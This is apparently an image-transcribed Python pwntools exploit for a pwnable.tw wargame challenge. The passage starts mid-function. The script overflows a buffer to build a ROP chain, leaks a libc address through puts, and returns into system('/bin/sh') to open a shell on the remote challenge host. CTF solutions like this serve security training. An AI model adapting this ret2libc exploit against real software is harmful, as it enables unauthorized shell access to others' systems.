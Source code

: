 ``` py
    else:
        r = remote("chall.pwnable.tw", 10103)

    return r

def create_bullet (p, description):
    p.sendlineafter (b'Your choice :', b'1')
    p.sendafter (b'Give me your description of bullet :', description)


def powerup (p, description):
    p.sendlineafter (b'Your choice :', b'2')
    p.sendafter (b'Give me your another description of bullet :', description)

def beat (p):
    p.sendlineafter (b'Your choice :', b'3')

def main():
    p = conn()
    
    one_pop = 0x08048475
    stdin = 0x804b020
    main_func = 0x8048954

    create_bullet (p, b'A' * 47)
    powerup (p, b'A')
    powerup (p, b'\xff' * 3 + b'A' * 4 + p32(exe.plt['puts']) + p32(one_pop) + p32 (stdin) + p32(main_func))
    beat(p)
    
    p.recvuntil (b'Oh ! You win !!\n')
    temp = p.recvn(4)
    temp = u32(temp)

    libc_base = temp - libc.symbols['_IO_2_1_stdin_']
    system_func = libc_base + libc.symbols['system']
    bin_sh = libc_base + next (libc.search (b'/bin/sh'))
    print ("The address of stdin in libc is : ", hex (temp))
    print ("The address of libc is : ", hex (libc_base))
    print ("The address of function in libc is : ", hex (system_func))
    print ("The address stores /bin/sh in libc is :", hex (bin_sh))

    create_bullet (p, b'A' * 47)
    powerup (p, b'A')
    powerup (p, b'\xff' * 3 + b'A' * 4 + p32(system_func) + p32(one_pop) + p32(bin_sh))
    beat(p)

    p.interactive()


if __name__ == "__main__":
    main()
```
